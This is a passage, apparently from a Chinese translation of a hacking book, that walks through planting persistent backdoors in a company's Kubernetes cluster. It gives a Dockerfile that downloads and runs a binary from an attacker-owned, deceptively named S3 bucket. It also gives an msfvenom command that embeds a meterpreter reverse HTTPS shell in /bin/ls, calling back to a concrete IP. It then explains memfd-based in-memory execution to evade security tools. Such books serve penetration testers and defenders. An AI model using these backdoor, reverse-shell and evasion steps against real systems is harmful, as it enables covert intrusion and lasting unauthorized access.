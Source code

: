然而，这个表面上看似不可能的难题有一个显而易见的解决方案：具有不同属性的多个后门。我们将同时拥有一个稳定而略显普通的后门和一个隐秘但不稳定的 shell。第一个后门将由一个巧妙隐藏在眼前的 Pod 组成，它作为我们的主要操作中心。这个 Pod 将定期向家中发送信号，寻找要执行的命令。这也提供了直接的互联网连接，而我们当前的 shell 缺乏这一点。无论因何种原因，它一旦被摧毁，Kube 将迅速将其恢复。与第一个后门并行，我们将部署另一个更隐秘的程序，直到我们发送一个预定义的信号，它才会恢复。这为我们提供了一个秘密的方式，万一我们的第一个后门被好奇的管理员发现，可以重新进入系统。

这些多个后门不应共享任何妥协的指示：它们将联系不同的 IP，使用不同的技术，运行不同的容器，并彼此完全隔离。一个调查员发现某个种子具有特定属性时，不应能够利用这些信息找到其他后门。从理论上讲，一个后门的失败不应使其他后门面临风险。

## 稳定访问

稳定的后门将能够，例如，在可用的数百个节点中的少数几个上运行。这个流氓容器将是一个精简的镜像，在启动时加载并执行一个文件。我们将使用 *Alpine*，一个大约 5MB 的最小化发行版，通常用于启动容器。

在 Listing 9-2 中，我们首先编写 Dockerfile 以在 Alpine 容器内下载并运行一个任意文件。

```
#Dockerfile

FROM alpine

CMD ["/bin/sh", "-c",
"wget https://amazon-cni-plugin-essentials.s3.amazonaws.com/run
-O /root/run && chmod +x /root/run && /root/run"]
```

Listing 9-2: 一个 Dockerfile，用于构建一个容器，在启动后下载并运行一个可执行文件

由于 MXR Ads 是 S3 的忠实粉丝，我们从我们拥有的一个 S3 存储桶中拉取未来的二进制文件，我们将其背叛性地命名为 amazon-cni-plugin-essentials（稍后会详细解释这个名称）。

该二进制文件（也称为*代理*）可以是你最喜欢的自定义或样板反向 shell。有些黑客甚至不介意在 Linux 主机上运行一个原生 meterpreter 代理。正如第一章所述，我们构建的攻击框架是可靠且稳定的，很少有公司愿意投资昂贵的端点检测响应解决方案来保护他们的 Linux 服务器，尤其是在 Kubernetes 集群中的短暂机器上。这使得像 Metasploit 这样的现成漏洞利用框架成为一个合理的选择。

尽管如此，我们还是保持谨慎，花费几秒钟构建一个可靠的负载，避免触发潜在的隐藏安全机制。

我们前往实验室并生成一个无阶段的原生 HTTPS meterpreter。无阶段负载是完全自包含的，不需要从互联网下载额外的代码来启动。meterpreter 直接注入我们选择的 ELF/PE 二进制文件的*.text*部分（前提是模板文件有足够的空间）。在列表 9-3 中，我们选择了*/bin/ls*二进制文件作为模板，并将反向 shell 嵌入其中。

```
root@Point1:~/# **docker run -it phocean/msf ./msfvenom -p \**
**linux/x64/meterpreter_reverse_https \**
**LHOST=54.229.96.173 \**
**LURI=/msf \**
**-x /bin/ls**
**LPORT=443 -f elf > /opt/tmp/stager**

[*] Writing 1046512 bytes to /opt/tmp/stager...
```

列表 9-3：将 meterpreter 嵌入常规的*/bin/ls*可执行文件中

很简单。现在，我们希望不是像传统二进制文件那样从磁盘运行该文件，而是仅通过内存触发其执行，以规避潜在的安全解决方案。如果负载是常规的 shellcode，而不是一个实际的二进制文件，我们只需要将其复制到一个可读/写/执行的内存页中，然后跳转到负载的第一个字节。

然而，由于我们的`meterpreter_reverse_https`负载生成一个完整的 ELF 二进制文件，反射地将其加载到内存中需要一些额外的工作：我们必须手动加载导入的 DLL 并解析本地偏移量。有关如何处理此问题的更多信息，请查看本章末尾的资源。幸运的是，Linux 3.17 引入了一个系统调用工具，它提供了一种更快速的方式来实现相同的结果：*memfd*。

此系统调用创建一个完全驻留在内存中的虚拟文件，并表现得像任何常规磁盘文件。通过使用虚拟文件的符号链接*/proc/self/fd/<id>*，我们可以打开虚拟文件，修改它，截断它，当然，也可以执行它！
